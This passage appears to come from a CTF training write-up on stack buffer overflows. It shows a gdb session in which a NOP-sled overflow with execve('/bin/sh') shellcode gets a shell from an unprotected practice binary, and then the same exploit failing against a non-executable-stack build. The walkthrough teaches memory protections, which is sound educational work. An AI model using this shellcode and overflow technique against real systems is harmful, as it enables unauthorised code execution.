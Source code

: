 Now we can inject any code we want!



```
(gdb) r $'AAAABBBBCCCCDDDDEEEEFFFF\x10\xcf\xff\xff' $(perl -e 'print "\x90"x20000 . "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" ')
Starting program: /home/larsh/Desktop/ctftraining/evolution/0_no_protection $'AAAABBBBCCCCDDDDEEEEFFFF\x10\xcf\xff\xff' $(perl -e 'print "\x90"x20000 . "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" ')
process 4481 is executing new program: /bin/dash
$ 
```


## Non-executable stack

Marking the stack segment as non-executable will not change the actual code in any way.

```
$ objdump -d 0_no_protection > 0_no_protection.dis
$ objdump -d 1_nx_stack > 1_nx_stack.dis
$ diff 0_no_protection.dis 1_nx_stack.dis 
2c2
< 0_no_protection:     file format elf32-i386
---
> 1_nx_stack:     file format elf32-i386
```

But if we try to run the same exploit as before, we run into problems:

```
(gdb) r $'AAAABBBBCCCCDDDDEEEEFFFF\x10\xcf\xff\xff' $(perl -e 'print "\x90"x20000 . "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" ')
Starting program: /home/larsh/Desktop/ctftraining/evolution/1_nx_stack $'AAAABBBBCCCCDDDDEEEEFFFF\x10\xcf\xff\xff' $(perl -e 'print "\x90"x20000 . "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" ')

Program received signal SIGSEGV, Segmentation fault.
0xffffcf10 in ?? ()
(gdb) x/i $eip
=> 0xffffcf10:	nop
```

Even though we are trying to execute a valid instruction, the processor does not allow it. This is because the stack memory region is non-executable:

```
(gdb) info proc mapping
process 4777
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/larsh/Desktop/ctftraining/evolution/1_nx_stack
	 0x8049000  0x804a000     0x1000        0x0 /home/larsh/Desktop/ctftraining/evolution/1_nx_stack
	0xf7dc1000 0xf7f96000   0x1d5000        0x0 /lib/i386-linux-gnu/libc-2.27.so
	0xf7f96000 0xf7f97000     0x1000   0x1d5000 /lib/i386-linux-gnu/libc-2.27.so
	0xf7f97000 0xf7f99000     0x2000   0x1d5000 /lib/i386-linux-gnu/libc-2.27.so
	0xf7f99000 0xf7f9a000     0x1000   0x1d7000 /lib/i386-linux-gnu/libc-2.27.so
	0xf7f9a000 0xf7f9d000     0x3000        0x0 
	0xf7fcf000 0xf7fd1000     0x2000        0x0 
	0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
	0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
	0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib/i386-linux-gnu/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib/i386-linux-gnu/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib/i386-linux-gnu/ld-2.27.so
	0xfffd8000 0xffffe000    0x26000        0x0 [stack]
```